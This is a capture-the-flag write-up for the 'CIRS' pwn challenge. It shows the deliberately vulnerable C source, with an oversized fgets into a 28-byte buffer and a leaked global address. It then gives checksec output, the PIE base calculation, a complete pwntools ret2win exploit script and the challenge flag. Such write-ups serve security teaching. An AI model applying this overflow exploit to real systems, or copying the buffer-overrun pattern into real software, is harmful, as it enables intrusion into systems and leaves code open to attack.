


# CIRS

First, lets start off with the code given to us first

```c
#include <stdio.h>
#include <stdlib.h>

// Compiled using gcc -o cirs -g -fno-stack-protector -Wno-stringop-overflow cirs.c

unsigned long report_number = 0;

void setup() //nothing interesting here
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void file_report()
{
    char input[28]; //character array variable of size 28
    printf("Please input your student ID: ");
    fgets(input, 28, stdin); //written to input variable
    printf("Please describe the incident: ");
    fgets(input, 256, stdin); //written to input variable
    printf("The matter has been recorded and will be investigated. Thank you.\n");
}

//in a ret2win scenario, this is your win function
void admin()
{
    // how did you even get here?
    FILE *fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open flag\n");
        exit(0);
    }
    char c;
    while ((c = fgetc(fptr)) != EOF)
    {
        printf("%c", c);
    }
    fclose(fptr);
}

int main()
{
    setup();
    srand(0xa2cdde); // seeds the rand() function with the seed 
    report_number = rand(); //random report number
    printf("Welcome to the Cyber Incident Reporting System (CIRS)\n");
    printf("Case number: #%lu\n", &report_number);
    file_report();
    return 0;
}
```

## Running CheckSec
```
└─$ checksec cirs
[*] '/mnt/d/D_Drive/challenge/service-cirs/service/cirs'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
    Debuginfo:  Yes
```

From this, we can see that NX is enabled and PIE is enabled
PIE stands for Position Independent Executable, which means that everytime the binary is ran, it gets loaded into a different memory address.  
In a binary with PIE, things like function addresses are saved as an offset, and when the program is run, a randomnised base address will be generated and the function location during runtime would be equal to `base address + offset`

## Find the Base Address

Since the C file is given, you can recompile it without PIE using `gcc -o cirs_patched -g -no-pie -fno-stack-protector -Wno-stringop-overflow cirs.c`
```
└─$ ./cirs_patched
Welcome to the Cyber Incident Reporting System (CIRS)
Case number: #4210832
Please input your student ID:
```

Thus we have a static value case number, which is `0x404090` in hex
this is where we can set `binary.address = (PIERand - 0x404090)`

If we assume the PIE base to be used in the function like
```py
PIERand = int(reportNumber.strip().decode("utf-8"))
print(hex(PIERand)) 

binary.address = (PIERand - 0x404090)
log.success(f'PIE base: {hex(binary.address)}')
```

Which we will obtain as `PIE base: 0x55d758e4a000`  

By disassembling the admin function  
  
We can see a whole lot of addresses here, but the important ones are used below  

  
There is a difference of 0x400000 between the actual base address and the calculated one

Thus, when writing our script, our binary address will be
`binary.address = (PIERand + 0x400000 - 0x404090)`

Thus the final script will be
```py
from pwn import *

context.binary = binary = ELF("./cirs")
p = process()
#p = remote("0.0.0.0", 10000)

# Get the report number from the output
p.recvuntil("Case number: #")
reportNumber = p.recvuntil("\n")
PIERand = int(reportNumber.strip().decode("utf-8"))
print(hex(PIERand))

# Update our base address
binary.address = (PIERand + 0x400000 - 0x404090)
log.success(f'PIE base: {hex(binary.address)}')

# Write our payload
hidden_function = p64(binary.symbols.admin)
p.recvuntil(b"student ID:")
p.sendline(b"aaa")
p.recvuntil(b"incident:")
payload = b"A" * (40) + hidden_function

p.sendline(payload)
p.interactive()

```

which should output the flag, `YCEP25{I_L0ve_eat1ng_i_m3an_ropp1ng_PIE}`

Adapted from https://riantheduckquack.gitbook.io/ctf-thingys/challenge-writeups/blahajctf-2023/pwn/cars (Thanks Rian!!)
